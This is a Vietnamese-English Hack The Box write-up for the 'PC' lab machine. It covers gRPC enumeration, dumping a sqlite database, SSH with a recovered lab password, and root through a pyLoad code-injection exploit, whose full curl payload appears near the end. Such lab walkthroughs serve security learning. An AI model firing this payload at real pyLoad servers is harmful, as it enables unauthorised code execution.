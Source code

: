 ```yaml
---
title: PC Hack The Box 
date: 2023-06-25 22:50:30 +/-TTTT
categories: [Hack The Box, PC]
tags: [PC HTB] 
# image: ../assets/img/network/ssh_tunnel.jpg
image:
  path: /assets/img/htb/pc/logo.jpg
  alt: PC HTB
---
```


- Recon pc machine with nmap
![](/assets/img/htb/pc/nmap.png)

- Search service for port 50051 -> gRPC service
+ Install grpcurl and add grpcurl to env
![](/assets/img/htb/pc/insstall_grpcurl.png)
![](/assets/img/htb/pc/addevn.png)

- Thực hiện tạo người dùng và thu thập thêm thông tin (trường hợp lấy thông tin bằng token bị fail, thực hiện login lại để kiểm tra user đã bị xóa chưa, nếu user đã bị xóa tạo lại tài khoản mới)
![](/assets/img/htb/pc/account.png)

- Thực hiện truy vấn dữ liệu sqlite
![](/assets/img/htb/pc/query1.png) 
![](/assets/img/htb/pc/query2.png) 
![](/assets/img/htb/pc/query3.png) 

#### Hoặc cũng có thể sử dụng grpcui để có giao diện 
![](/assets/img/htb/pc/ui.png) 
![](/assets/img/htb/pc/install_ui.png) 
- Start grpcui và tiếp tục khai thác
```shell
grpcui -plaintext IP_machine:50051
```
![](/assets/img/htb/pc/start1.png)
![](/assets/img/htb/pc/start2.png)

-Register, login and exploit with grpcui
![](/assets/img/htb/pc/1.png)
![](/assets/img/htb/pc/2.png)
![](/assets/img/htb/pc/3.png)
- Sử dụng burpsuite để dễ xem các thông tin request và reponse
![](/assets/img/htb/pc/4.png)
![](/assets/img/htb/pc/5.png)
![](/assets/img/htb/pc/6.png)

-> Sau khi recon và dump data, ta có được thông tin account sau/HereIsYourPassWord1431 

Sử dụng thông tin thu thập được thực hiện ssh vào hệ thống
![](/assets/img/htb/pc/user.png)

#### Tìm cách lên root
- Download và chạy linpeas
![](/assets/img/htb/pc/linpeas.png)
![](/assets/img/htb/pc/service.png)
- Với các port đang mở thực hiện ssh forwarding port để truy cập trên máy local
![](/assets/img/htb/pc/ssh_forward.png)
![](/assets/img/htb/pc/web_root.png)
- Thực hiện tìm kiếm exploit pyload (https://huntr.dev/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65/)
![](/assets/img/htb/pc/search.png)
- Thực hiện thay đổi payload trong package để revershell
```shell
curl -i -s -k -X $'POST' -H $'Host: 127.0.0.1:8000' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 184' --data-binary $'package=xxx&crypted=AAAA&jk=%70%79%69%6d%70%6f%72%74%20%6f%73%3b%6f%73%2e%73%79%73%74%65%6d%28%22%74%6f%75%63%68%20%2f%74%6d%70%2f%70%77%6e%64%22%29;f=function%20f2(){};&passwords=aaaa' $'http://127.0.0.1:8000/flash/addcrypted2'
```
![](/assets/img/htb/pc/burp.png)
- Mở port lắng nghe trước khi chạy payload revershell 
![](/assets/img/htb/pc/nc.png)








